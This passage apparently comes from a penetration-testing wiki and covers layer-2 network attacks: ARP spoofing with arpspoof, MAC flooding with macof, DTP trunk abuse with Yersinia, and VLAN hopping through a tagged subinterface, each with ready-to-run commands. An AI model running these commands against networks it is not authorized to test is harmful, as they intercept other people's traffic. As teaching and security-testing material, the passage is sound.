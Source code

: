 #### **Arpspoof**

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -t 192.168.1.1 192.168.1.2
arpspoof -t 192.168.1.2 192.168.1.1
```

### MAC Flooding - CAM overflow

Overflow the switch’s CAM table sending a lot of packets with different source mac address. When the CAM table is full the switch start behaving like a hub (broadcasting all the traffic).

```bash
macof -i <interface>
```

In modern switches this vulnerability has been fixed.

### 802.1Q VLAN

#### Dynamic Trunking

Many switches support the Dynamic Trunking Protocol (DTP) by default, however, which an adversary can abuse to **emulate a switch and receive traffic across all VLANs**. The tool [_**dtpscan.sh**_](https://github.com/commonexploits/dtpscan) can sniff an interface and **reports if switch is in Default mode, trunk, dynamic, auto or access mode** (this is the only one that would avoid VLAN hopping). The tool will indicate if the switch is vulnerable or not.

If it was discovered that the the network is vulnerable, you can use _**Yersinia**_ to launch an "**enable trunking**" using protocol "**DTP**" and you will be able to see network packets from all the VLANs.

```bash
apt-get install yersinia #Installation
sudo apt install kali-linux-large #Another way to install it in Kali
yersinia -I #Interactive mode
#In interactive mode you will need to select a interface first
#Then, you can select the protocol to attack using letter "g"
#Finally, you can select the attack using letter "x"

yersinia -G #For graphic mode
```

![](<../../.gitbook/assets/image (646) (1).png>)

To access the VLAN packets

#### Attacking specific VLANs

Once you known VLAN IDs and IPs values, you can **configure a virtual interface to attack a specific VLAN**.\
If DHCP is not available, then use _ifconfig_ to set a static IP address.

```
root@kali:~# modprobe 8021q
root@kali:~# vconfig add eth1 250
Added VLAN with VID == 250 to IF -:eth1:-
root@kali:~# dhclient eth1.250
Reloading /etc/samba/smb.conf: smbd only.
root@kali:~# ifconfig eth1.250
eth1.250  Link encap:Ethernet  HWaddr 00:0e:c6:f0:29:65
          inet addr:10.121.5.86  Bcast:10.121.5.255  Mask:255.255.255.0
          inet6 addr: fe80::20e:c6ff:fef0:2965/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:19 errors:0 dropped:0 overruns:0 frame:0
          TX packets:13 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
```